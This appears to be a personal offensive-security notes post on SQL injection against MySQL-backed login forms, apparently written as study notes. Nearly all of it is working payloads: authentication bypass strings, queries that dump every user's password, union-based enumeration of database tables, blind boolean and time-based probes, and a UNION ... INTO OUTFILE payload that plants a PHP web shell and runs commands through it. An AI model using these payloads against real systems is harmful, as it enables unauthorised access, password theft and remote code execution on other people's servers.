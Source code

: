 ```yaml
---
layout: post
title: SQL Injection
titledate: 09/01/23
tags: ["infosec","offsec", "sql"]
---
```


<h4>Error based SQLi</h4>

sqli can lead to auth bypass via info disclosure

in MySQL

    SELECT * FROM users WHERE user_name= 'admin' OR 1=1 --

bc the or statement will always return true, the user_name will fetch the first user

if we test a form with 

    admin'

this may return a mysql error msg informing us that we can interact with the db

auth bypass

below we can try to terminate the mysql statement early

    admin' OR 1=1 -- //

mysql version

    ' or 1=1 in (select @@version) -- //

retrieve users table

    ' OR 1=1 in (SELECT * FROM users) -- //

    Uncaught mysqli_sql_exception: Operand should contain 1 column(s) in /var/www/html/login1.php:85 Stack trace: #0 /var/www/html/login1.php(85): mysqli_query() #1 /var/www/html/index.php(30): include('...') #2 {main} thrown in /var/www/html/login1.php

means we should select 1 column from table

password of all users

    ' or 1=1 in (SELECT password FROM users) -- //

password from 1 user

    ' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //

<h4>Union based sqli</h4>

first we need to get the exact number of columns in the table

    ' ORDER BY 1-- //

we keep incrementing this until we get an error msg

    ' ORDER BY 6-- //

now we can enumerate the db via a union query for each column that is present and 2 we leave null

can use the following to identify column number - add or subtract values

    <h3>%' UNION SELECT database(), user(), @@version, null, null -- //</h3>

can use the following to inject webshell using appropriate # of columns from above

    $ ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

    $ http://192.168.50.50/tmp/webshell.php?cmd=id

if we do not get the expected output from our database for the table columns we can try shifting them over

    ' UNION SELECT null, null, database(), user(), @@version  -- //

let's see if any other tables are present in our db by enumerating the information_schema

    ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //

this will present us with table name, column name, and database name

if we want to dump the information from the users table

    ' UNION SELECT null, username, password, description, null FROM users -- //

<h4>Blind SQL Injection</h4>

this type of attack is necessary when query results are not returned so we rely on boolean- or time-based logic

to test for boolean sqli

    http://192.168.50.50/blindsqli.php?user=admin' AND 1=1 -- //

This will only return the user if true and it exists in the db

using a time based query

    http://192.168.50.50/blindsqli.php?user=admin' AND IF (1=1, sleep(3),'false') -- //

